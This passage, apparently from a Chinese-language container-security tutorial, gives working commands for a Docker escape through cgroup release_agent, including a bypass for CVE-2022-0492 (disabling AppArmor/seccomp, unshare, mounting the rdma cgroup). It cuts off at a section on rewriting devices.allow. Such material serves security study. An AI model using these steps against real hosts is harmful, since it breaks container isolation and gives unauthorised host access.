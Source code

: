 7.添加一个**执行后就退出的进程**到新创建的 cgroup 子系统中来触发 notify\_on\_release

```bash
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

[![](assets/1706845681-013096b95b70c8cbc6485fa6d9b8ea67.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131231800-eb7475d8-c04b-1.png)

### bypass sys\_admin (CVE-2022-0492)

只需要关闭 AppArmor 和 Seccomp 即可成功利用

```bash
docker run --security-opt apparmor=unconfined --security-opt seccomp=unconfined ubuntu bash
```

此时系统不允许将内核相关的虚拟文件系统 mount 到用户目录下

新建个 Namespace 来个 Namespace 嵌套 Namespace，并且重新定义一些资源隔离，让新建的 Namespace 又误以为是一个新的环境即可绕过

使用 unshare 创建一个 namespace 即可

```bash
unshare -UrmC test
mkdir /tmp/cgroup && mount -t cgroup -o rdma cgroup /tmp/cgroup
```

剩下的操作就和之前一样了

该漏洞影响 v2.6.24-rc1 及以上 Linux 内核版本，修复版本为 v5.17-rc3 及以上内核版本，修复补丁限制了 release\_agaent 的权限

实际上这是 linux 内核的洞而非 docker 的洞

## 重写 devices.allow 逃逸

devices 子系统用于配置允许或阻止 cgroup 中的 task 访问某个设备，起到黑白名单的作用

主要包含以下文件：
